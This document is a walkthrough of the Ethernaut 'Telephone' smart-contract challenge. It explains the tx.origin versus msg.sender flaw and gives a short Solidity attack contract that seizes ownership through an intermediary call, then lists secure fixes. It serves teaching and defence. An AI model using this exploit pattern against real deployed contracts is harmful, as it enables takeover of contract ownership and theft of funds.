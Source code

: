 # Telephone Ethernaut Challenge 

## Challenge Overview
**Contract Name**: Telephone  
**Difficulty**: Easy  
**Objective**: Claim ownership of the contract by exploiting the `changeOwner` function's validation check.

## Vulnerability Analysis

### Key Contract Code
```javascript
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

### Security Issue
The contract uses `tx.origin` for authorization, which creates a dangerous assumption about call origins. The difference between:
- `tx.origin`: The original EOA (Externally Owned Account) that initiated the transaction chain
- `msg.sender`: The immediate caller of the function (could be a contract)

### Attack Vector
We can exploit this by creating a call chain where:
1. User (EOA) calls Attack Contract
2. Attack Contract calls Telephone contract

This makes:
- `tx.origin` = user address
- `msg.sender` = attack contract address
Satisfying the `tx.origin != msg.sender` condition

## Solution Implementation

### Attack Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker {
    function attack(address _telephoneAddress, address _newOwner) public {
        (bool success, ) = _telephoneAddress.call(
            abi.encodeWithSignature("changeOwner(address)", _newOwner)
        );
        require(success, "Attack failed");
    }
}
```

### Step-by-Step Execution

1. **Deploy Attack Contract**
   - Compile and deploy `TelephoneAttacker` to the same network as the Telephone contract

2. **Execute Attack**
   - Call `attack()` with:
     - `_telephoneAddress`: Your Ethernaut instance address
     - `_newOwner`: Your wallet address

3. **Verify Ownership**
   ```javascript
   await contract.owner() // Should return your wallet address
   ```

## Key Security Lessons

1. **Never use `tx.origin` for authorization**:
   - It exposes contracts to phishing-style attacks
   - Breaks composability with other contracts

2. **Proper ownership transfer should**:
   - Use `msg.sender` for authentication
   - Include explicit permission checks
   - Implement two-step ownership transfer pattern

3. **Secure Alternative**:
```solidity
function changeOwner(address _owner) public {
    require(msg.sender == owner, "Only owner can change owner");
    owner = _owner;
}
```

## Prevention Recommendations

1. Replace all `tx.origin` checks with `msg.sender`
2. Implement OpenZeppelin's Ownable pattern for ownership management
3. Add two-step ownership transfer with confirmation
4. Clearly document any remaining `tx.origin` usage with security rationale

This solution demonstrates a common smart contract vulnerability and the importance of proper address validation in authorization logic.